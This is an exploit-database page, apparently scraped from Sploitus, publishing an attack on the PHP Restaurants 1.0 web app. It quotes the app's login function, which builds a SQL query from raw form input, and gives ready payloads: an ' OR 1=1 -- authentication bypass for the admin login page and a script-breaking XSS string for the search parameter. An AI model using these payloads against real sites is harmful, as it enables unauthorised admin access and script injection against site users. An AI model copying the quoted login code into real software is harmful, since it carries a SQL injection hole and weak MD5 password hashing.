 ```yaml
---
title: PHP Restaurants 1.0 - SQL injection Authentication Bypass & Cross Site Scripting Vulnerabilities exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38635&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-03
fetch_date: 2025-10-04T11:38:04.338550
---
```


# PHP Restaurants 1.0 - SQL injection Authentication Bypass & Cross Site Scripting Vulnerabilities exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for PHP Restaurants 1.0 - SQL injection Authentication Bypass & Cross Site Scripting Vulnerabilities

2023-05-02 | CVSS 6.9

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38635
# Exploit Title: PHP Restaurants 1.0 - SQLi Authentication Bypass & Cross Site Scripting (XSS)
# Exploit Author: Or4nG.M4n
# Vendor Homepage: https://github.com/jcwebhole
# Software Link: https://github.com/jcwebhole/php_restaurants
# Version: 1.0

functions.php

function login(){
global $conn;
$email = $_POST['email'];
$pw = $_POST['password'];

$sql = "SELECT * FROM `users` WHERE `email` = '".$email."' AND `password` =
'".md5($pw)."'"; <-- there is No filter to secure sql query
parm[email][password]
$result = $conn->query($sql);
if ($result->num_rows > 0) {
while($row = $result->fetch_assoc()) {
setcookie('uid', $row['id'], time() + (86400 * 30), "/"); // 86400 = 1 day
header('location: index.php');
}
} else {
header('location: login.php?m=Wrong Password');
}

}

login bypass at admin page /rest1/admin/login.php

email & password : ' OR 1=1 --             <- add [space] end of the payload

cross site scripting main page /index.php

xhttp.open("GET", "functions.php?f=getRestaurants<?php
  if(isset($_GET['search'])) echo '&search='.$_GET['search']; <-- here we
can insert our xss payload
?>
  ", true);
xhttp.send();

</script> <-- when you insert your'e payload don't forget to add </script>
like

xss payload : </script><img onerror=alert(1) src=a>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
